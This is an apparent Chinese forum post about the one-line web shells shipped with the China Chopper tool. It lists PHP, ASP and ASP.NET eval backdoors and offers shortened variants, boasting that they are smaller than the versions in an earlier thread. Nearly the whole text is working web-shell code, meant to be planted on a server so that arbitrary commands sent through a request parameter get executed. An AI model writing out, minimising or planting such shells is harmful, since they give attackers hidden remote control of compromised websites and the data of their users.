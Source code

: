 菜刀readme.txt中附带一3个一句话： 

```
PHP:    <?php @eval($_POST['chopper']);?> 
ASP:    <%eval request("chopper")%> 
ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>
```

抛弃密码的长度不算，其实这3个一句话均不是最短的。 
如： 
PHP我们可以这样写： 

```php
<?php @eval($_POST['0']);?>   原版 
<?=eval($_POST[0]);?>         缩小版
```

ASP我们可以这样写： 

```asp
<%eval request("0")%>   原版 
<%eval request(0)%>     缩小版
```

ASP.NET可以这样写： 

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["z"],"unsafe");%>   原版 
<%@Page Language=JS%><%eval(Request.Item(0),"unsafe");%>             缩小版
```

当然你也可以把它写成这样(很显然体积上不占优势)： 

```
<%@Page Language="JAVASCRIPT"%><%eval(Request.Item(0),"unsafe");%>
```

已经用了许久的东西，直接回复原贴感觉很多人看不到，还是单独发出来吧。 
和原求助贴中的最长字符数对比： 

```
<%@ Page Language="Jscript"%><%eval(Request.Item["1"],"unsafe 
<%@Page Language=JS%><%eval(Request.Item(0),"unsafe");%>
```

显然达到目的了。
